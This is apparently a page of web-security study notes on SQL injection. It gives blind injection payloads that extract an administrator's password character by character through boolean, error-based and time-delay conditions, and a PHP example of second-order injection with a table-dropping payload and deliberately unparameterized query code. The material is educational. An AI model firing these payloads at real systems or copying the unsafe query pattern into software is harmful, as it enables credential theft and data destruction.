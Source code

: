 ```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

Inducing conditional responses by triggering SQL errors

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
We determine what letters are right
```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

Exploiting blind SQL injection by triggering time delays
```
'; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--
```
We can retrieve data in the way already described, by systematically testing one character at a time:
```
'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```
Second Order SQL Injection - payload already stored in the database intentionally placed it can be triggered elsewhere

Example

```
$sql = "INSERT INTO user (username, password)  VALUES (:username, :password)";
$data = [
        'username' => $userName,
        'password' => $password,
        'first_name' => $firstName,
        'second_name' => $secondName
        ];
$stmt = $conn->prepare($sql);
$stmt->execute($data);
```

Introduces the following structure as a name:

```
'; DROP TABLE user; --
```
We select the user by name use the following code:
```
$sql = "SELECT * FROM user WHERE username = '{$userName}'";
$stmt = $conn->query($sql);
$user = $stmt->fetch();
```
We do not use the parameterization => the code that will be executed:
```
SELECT * FROM user WHERE username = ''; DROP TABLE user; --';
```
